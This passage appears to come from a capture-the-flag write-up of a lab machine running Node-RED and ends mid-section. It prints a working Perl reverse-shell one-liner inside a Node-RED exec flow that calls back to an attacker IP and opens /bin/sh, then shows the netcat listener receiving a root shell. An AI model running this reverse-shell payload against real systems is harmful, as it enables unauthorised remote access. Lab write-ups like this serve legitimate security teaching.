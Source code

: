     > ls /home/node
    
    

### Callback Shell

In investigating the box, it’s incredibly bare: no `python`, `python3`, `php`,
`nc`, `ifconfig`, `netstat`, `arp`. There is `perl` though.

I’ll use the `perl` reverse shell from
[PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-
cheat-sheet) to get a proper callback shell. The exec node runs a command. In
this case, I’ll configure it to take input for the port, which is inserted
into the middle of the command:

![1532602467605](https://0xdfimages.gitlab.io/img/1532602467605.png)

So the flow looks like:

![1532602489603](https://0xdfimages.gitlab.io/img/1532602489603.png)

    
    
    [{"id":"6fe6b87a.30d988","type":"tab","label":"Reverse_TCP","disabled":false,"info":""},{"id":"6caeb9ad.e39468","type":"inject","z":"6fe6b87a.30d988","name":"9002","topic":"","payload":"9002","payloadType":"str","repeat":"","crontab":"","once":false,"onceDelay":0.1,"x":150,"y":160,"wires":[["97f946aa.853548"]]},{"id":"97f946aa.853548","type":"exec","z":"6fe6b87a.30d988","command":"perl -e 'use Socket;$i=\"10.10.14.14\";$p=","addpay":true,"append":";socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'","useSpawn":"false","timer":"","oldrc":false,"name":"perl rev shell","x":350,"y":160,"wires":[["e2dba6a9.bb9fe8"],["e2dba6a9.bb9fe8"],[]]},{"id":"e2dba6a9.bb9fe8","type":"debug","z":"6fe6b87a.30d988","name":"","active":true,"tosidebar":true,"console":false,"tostatus":false,"complete":"false","x":570,"y":160,"wires":[]}]
    

Pushing the button leads to shell!

    
    
    root@kali# nc -lnvp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 45908
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    nodered
    

### File Upload

Since the box doesn’t have `curl` or `wget` or `nc`, I created a file upload
flow, that would callback to a given port, and then what it reads to
`/tmp/.df/upload`:
